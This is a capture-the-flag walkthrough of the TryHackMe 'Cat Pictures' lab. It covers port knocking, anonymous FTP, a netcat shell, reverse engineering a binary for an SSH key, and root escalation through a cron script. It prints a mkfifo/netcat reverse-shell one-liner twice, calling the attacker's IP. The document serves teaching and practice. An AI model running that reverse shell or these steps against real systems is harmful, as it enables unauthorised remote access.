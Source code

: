 # Cat Pictures TryHackMe Writeup
### Level: `Easy` | OS: `Linux`

![logo](1.jpeg)

## Scanning
We use **nmap** to scan all ports, along with scripts and software versions.

![](2.png)

## Enumeration
We access the web service, list a forum under the phpBB CMS.

![](3.png)

We review the site, we find a post where they mention "knock" and a sequence, this already makes us think that there must be some other hidden service and that we will have to make use of port knock.

![](4.png)

We make use of the **knock** tool of this [github](https://github.com/grongor/knock), we execute the tool following the port order.

We run **nmap** again and list a new port associated with the FTP service.

![](5.png)

We connect through the **FTP service** using *"anonymous"* credentials, list a file *"note.txt"*, download, read content and it gives us credentials and instructions on where to use them.

![](6.png)


## Exploitation
We use **netcat** to connect to the service, specify the password and get a connection to the machine.

![](7.png)

We know the user thanks to the note that was in the **FTP service**, so we read the files in his folder and we see that to read it we will need to have an interactive shell.

![](8.png)

Seeing that I could hardly execute any commands, I listed the whole list of available binaries, so I tried to invoke another new shell with this surprise:

![](9.png)

#### Reverse shell with root

![](10.png)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```

Now it lets us run the binary, but it seems that something is wrong, we download the binary to our Kali, we examine it with **Ghidra** and we enumerate the *SSH password*.

![](11.png)

Now we execute the binary with the password and we will obtain the *"id_rsa"* file to be able to access by **SSH**.

![](12.png)

We connect via SSH, we are as root on the Docker machine.

![](13.png)

#### Read flag.txt

![](14.png)

## Privilege Escalation

We read the file *".bash_history"*, we find a log of executions in the system, thanks to it we list a script called *"clean.sh"* that runs in **crontab** (yes, the same one that deleted the files in the folder */tmp/* ;) ).

![](15.png)

We transfer **pspy64** with **curl** (wget didn't work for me), give it permissions and run it to know the execution time of the *crontab script*.

![](16.png)

We add our payload to obtain a *reverse shell* and put a **netcat** listening.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```

![](17.png)

We wait a few minutes and we will be able to read the *root flag*.

![](18.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
